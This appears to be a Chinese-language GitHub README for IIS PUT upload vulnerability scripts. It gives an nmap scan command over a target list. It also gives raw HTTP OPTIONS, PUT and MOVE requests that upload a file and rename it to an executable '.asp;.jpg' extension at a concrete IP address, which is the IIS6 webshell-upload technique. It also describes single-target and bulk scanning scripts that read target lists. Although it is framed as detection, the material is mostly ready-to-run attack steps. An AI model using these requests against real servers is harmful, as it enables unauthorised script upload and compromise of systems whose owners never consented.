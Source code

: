 # IIS PUT 上传漏洞检测脚本

nmap检测ii6

nmap -sT -sV -p 80-90,443,8001-8090,8443 -O --script http-headers.nse,http-methods,http-put.nse,http-iis-webdav-vuln.nse --open -Pn -v -oN iis6_res.txt -iL 777.txt


手动检测：
1、检测开启的方法
```
OPTIONS / HTTP/1.1
HOST:XXX.XXX.XXX.XXX
```

2、PUT上传文件，Burp可能会返回403禁止上传，但是用py可以上传
```
PUT /3.txt HTTP/1.1
HOST:XXX.XXX.XXX.XXX
Content-Length:1

1
```

3、move方法将上传的文件改为脚本后缀
```
MOVE /2222.txt HTTP/1.1
HOST:XXX.XXX.XXX.XXX
Destination:http://23.236.75.141/2222.asp;.jpg
```
* iis_put.py

* iis_put_multi.py

## iis_put.py

单个IP检测

python3 iis_put.py http://xxx.xxx.xxx.xxx

![](../imgs/IIS/put.png)

## iis_put_multi.py

批量检测

python3 iis_put_multi.py /root/unAuth/Drupal/us.txt 10





